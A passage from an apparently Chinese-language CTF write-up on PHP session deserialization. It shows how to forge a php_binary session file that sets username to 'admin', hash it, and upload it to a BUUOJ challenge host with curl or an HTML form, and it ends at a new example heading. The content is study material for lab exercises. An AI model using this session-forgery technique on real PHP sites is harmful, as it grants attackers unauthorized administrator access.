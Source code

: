 ```php
    exit;
}
?>
```

- [file_exists](https://www.php.net/manual/zh/function.file-exists.php) — 检查文件或目录是否存在
- 下载当前用户的 session 文件，判断处理器类型为`php_binary`
- 生成目标 session 文件

```php
<?php
ini_set('session.serialize_handler', 'php_binary');
session_start();

$_SESSION['username'] = 'admin';
```

- 计算文件的 sha256

```bash
sha256sum sess_xxx
# 432b8b09e30c4a75986b719d1312b63a69f1b833ab602c9ad5f0299d1d76a5a4
```

- 上传文件

```bash
curl -X POST -F "up_file=@/tmp/sess_2;filename=sess;" -F "direction=upload" http://f39c4ab1-8cf6-47a3-bc18-cbf23dce4c98.node5.buuoj.cn:81/

curl -X POST -F "up_file=@/tmp/sess_2;filename=sess;" -F "attr=success.txt" -F "direction=upload" http://f39c4ab1-8cf6-47a3-bc18-cbf23dce4c98.node5.buuoj.cn:81/
```

此外也可以通过构建上传表单进行文件上传

```html
<form enctype="multipart/form-data" action="http://a917c0b3-2b1c-40ff-bd57-e804d096a865.node5.buuoj.cn:81/" method="POST">
    <!-- MAX_FILE_SIZE must precede the file input field -->
    <input type="hidden" name="MAX_FILE_SIZE" value="30000" />
    <input type="hidden" name="direction" value="upload" />
    <!-- <input type="hidden" name="attr" value="success.txt" /> -->
    
    <!-- Name of input element determines name in $_FILES array -->
    Send this file: <input name="up_file" type="file" />
    <input type="submit" value="Send File" />
</form>
```

例题：Jarvis OJ — PHPINFO 分析

题眼

- 可以控制`session`的内容
- 脚本文件指定了处理器
